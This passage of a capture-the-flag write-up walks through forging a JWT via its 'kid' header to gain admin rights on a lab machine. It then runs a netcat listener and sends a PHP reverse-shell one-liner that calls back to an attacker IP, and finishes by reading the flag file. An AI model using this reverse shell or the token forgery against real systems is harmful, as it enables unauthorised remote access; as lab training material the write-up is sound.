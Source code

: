 ![Image](/images/Hammer-23%201.png)

- we pointed the JWT `kid` to the file `/var/www/html/188ade1.key`
- we changed our role from `user` to `admin`
- we used the contents of `188ade1.key` to sign our JWT token

![Image](/images/Hammer-24%201.png)

With that we can now run Linux commands

### Getting a Shell

For this we will use the website ***revshells.com*** to help craft a payload:

![Image](/images/Hammer-30.png)

Lets set up our listener with `netcat`
```bash
nc -lvnp 9999
```

We know the server is running PHP.
So we can use the following command via the HTTP POST requests because we can now send commands as admin.

```JSON
{"command":
"php -r '$sock=fsockopen(\"10.6.68.14\",9999);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"}
```

---
***Note***: When sending commands like this through an API interface, make sure to escape the double quotes`""`, as JSON uses double quotes to define keys and values. Wrongly formatted commands will produce errors.

---

![Image](/images/Hammer-27.png)

![Image](/images/Hammer-29.png)

As we can see, we get the reverse shell.
We then navigate to `/home/ubuntu/` and `cat` the file `flag.txt`.